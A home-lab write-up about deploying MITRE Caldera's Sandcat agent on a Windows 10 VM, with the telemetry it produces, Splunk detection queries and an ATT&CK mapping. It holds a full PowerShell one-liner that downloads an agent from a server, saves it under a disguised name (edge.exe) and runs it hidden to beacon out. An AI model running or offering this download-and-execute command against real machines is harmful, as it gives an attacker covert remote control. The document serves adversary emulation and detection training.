



# Sandcat Agent Deployment

## Objective

The Sandcat agent was deployed to simulate:
- adversary command execution
- ATT&CK technique execution
- endpoint telemetry generation
- red team activity

The agent was used to execute ATT&CK abilities against the Windows 10 endpoint.

---

## Framework

MITRE Caldera

Plugin:
- Sandcat

---

## Target System

Windows 10 VM

---

## Deployment Method

The Sandcat agent was downloaded and executed using PowerShell.

---

## PowerShell Deployment Command

```powershell
$server="http://192.168.1.10:8888";
$url="$server/file/download";

$wc=New-Object System.Net.WebClient;

$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");

$data=$wc.DownloadData($url);

get-process | ? {$_.modules.filename -like "C:\Users\Public\edge.exe"} | stop-process -f;

rm -force "C:\Users\Public\edge.exe" -ea ignore;

[io.file]::WriteAllBytes("C:\Users\Public\edge.exe",$data) | Out-Null;

Start-Process -FilePath C:\Users\Public\edge.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```

---

## Telemetry Generated

### Sysmon
- Event ID 1 (Process Creation)
- Event ID 3 (Network Connections)

### PowerShell Logging
- Event ID 4104

---

## Detection Opportunities

### Suspicious PowerShell Activity
- WebClient usage
- DownloadData()
- hidden process execution
- encoded execution patterns

### LOLBin-style Execution
- PowerShell spawning edge.exe
- unusual executable path usage

### Network Activity
- outbound communication to Caldera server
- agent beaconing

---

## Example SPL Queries

### PowerShell Detection

```spl
index=windows EventCode=4104
ScriptBlockText="*DownloadData*"
```

---

### Process Creation Detection

```spl
index=sysmon EventCode=1
(Image="*powershell.exe*" OR Image="*edge.exe*")
| table _time Image CommandLine ParentImage User
```

---

## ATT&CK Mapping

| Technique | Description |
|---|---|
| T1059.001 | PowerShell |
| T1105 | Ingress Tool Transfer |
| T1218 | Signed Binary Proxy Execution |

---

## Screenshots

### Sandcat Agent Active



---

### Caldera Operations Interface



---

### Splunk Detection

